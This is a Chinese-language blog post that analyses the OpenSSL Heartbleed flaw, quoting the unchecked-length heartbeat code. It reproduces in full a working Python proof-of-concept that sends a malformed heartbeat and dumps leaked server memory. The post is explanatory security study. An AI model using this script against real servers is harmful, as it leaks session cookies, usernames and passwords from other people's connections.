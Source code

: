 文章参考内容来源：
[乌云-关于OpenSSL心脏出血的分析][1]
[github-py][2] （用来学习）    
[Heartbleed 实战：一个影响无数网站的缓冲区溢出漏洞][3]  
[Openssl 漏洞POC学习][4]

</br>
</br>

好久不冒泡 =w=， 刚好最近互联网界出了件大事，就是openssl的heartbleed，波及范围之广就不用多说了，反正应该是很多人睡不着觉了。=w=我呢，就对这个事件做一次原理的记录。

我们看heartbleed这个名字，搞过网络编程的同学应该都知道心跳包，很常见，是一种用来检测对端是否还存活的手段，防止大量已死的对端还在占用链接，而ssl也是有heartbeat的，ssl的心跳包协议是这个样子：
心跳包类型，1byte
载荷长度，2byte，
载荷内容，最大为2^14
协议还规定，收到心跳包以后将载荷回显，表示还活着，那么我们看ssl的代码：

        hbtype = *p++;
        n2s(p, payload);
        pl = p;

 这段代码的意思： hbyte首先取得心跳包的类型，n2s这个函数是什么意思呢？是将p指向的两个字节，也就是载荷的长度放入payload变量中，并且将p + 2, 指向载荷。

再来看另一段代码(节选)：  

        if (hbtype == TLS1_HB_REQUEST) {
                unsigned char *buffer, *bp;
                int r;

                buffer = OPENSSL_malloc(1 + 2 + payload + padding);
                bp = buffer;

                *bp++ = TLS1_HB_RESPONSE;
                s2n(payload, bp);
                memcpy(bp, pl, payload);
                bp += payload;
        }

如果发来的包是心跳包，那么首先malloc，这里我们看到是65535 这么多个字节，s2n是什么意思呢？就是将payload也就是长度放入bp中。然后拷贝这么多字节到bp，也就是缓冲区当中。

也就是说，可能payload是虚假的，比如我实际心跳包数据只有一个字节，我写一个65535 -100 的数字到payload中，OpenSSL这里是完全不检查实际长度的。那么将近64kb的内存会被泄漏出来，而且这64kb是pl的，在SSLv3记录的附近，一些cookie, 甚至usrname, password都不能幸免。

那么我们来看python脚本攻击的代码， 代码如下，地址文章的最开始有。

<!--more-->

    #!/usr/bin/python
    
    # Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
    # The author disclaims copyright to this source code.
    
    import sys
    import struct
    import socket
    import time
    import select
    import re
    from optparse import OptionParser
    
    options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
    options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
    
    def h2bin(x):
        return x.replace(' ', '').replace('\n', '').decode('hex')
    
    hello = h2bin('''
    16 03 02 00  dc 01 00 00 d8 03 02 53
    43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
    bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
    00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
    00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
    c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
    c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
    c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
    c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
    00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
    03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
    00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
    00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
    00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
    00 0f 00 01 01                                  
    ''')
    
    hb = h2bin(''' 
    18 03 02 00 03
    01 40 00
    ''')
    
    def hexdump(s):
        for b in xrange(0, len(s), 16):
            lin = [c for c in s[b : b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in lin)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print
    
    def recvall(s, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time() 
            if rtime < 0:
                return None
            r, w, e = select.select([s], [], [], 5)
            if s in r:
                data = s.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata
            
    
    def recvmsg(s):
        hdr = recvall(s, 5)
        if hdr is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        typ, ver, ln = struct.unpack('>BHH', hdr)
        pay = recvall(s, ln, 10)
        if pay is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return typ, ver, pay
    
    def hit_hb(s):
        s.send(hb)
        while True:
            typ, ver, pay = recvmsg(s)
            if typ is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False
    
            if typ == 24:
                print 'Received heartbeat response:'
                hexdump(pay)
                if len(pay) > 3:
                    print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True
    
            if typ == 21:
                print 'Received alert:'
                hexdump(pay)
                print 'Server returned error, likely not vulnerable'
                return False
    
    def main():
        opts, args = options.parse_args()
        if len(args) < 1:
            options.print_help()
            return
    
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print 'Connecting...'
        sys.stdout.flush()
        s.connect((args[0], opts.port))
        print 'Sending Client Hello...'
        sys.stdout.flush()
        s.send(hello)
        print 'Waiting for Server Hello...'
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break
    
        print 'Sending heartbeat request...'
        sys.stdout.flush()
        s.send(hb)
        hit_hb(s)
    
    if __name__ == '__main__':
        main()

重点在与hb这个包，根据协议，第0位是心跳包的类型，1，2是Openssl的版本类型，3， 4是message的长度， 5位是message的类型，6,7是payload length，可以看到没有实际的payload，那么周围的信息全部会被dump出来，这个就是核心的代码。

这次的事件也算给自己以后写代码提个醒 ，不能太过相信用户。嘛。新一轮的改密码风波来了，我总有预感，这事还没结束。 ^ ^

  [1]: http://drops.wooyun.org/papers/1381
  [2]: https://github.com/musalbas/heartbleed-masstest
  [3]: http://elevencitys.com/?p=7254
  [4]: http://blog.csdn.net/youfuchen/article/details/23279547
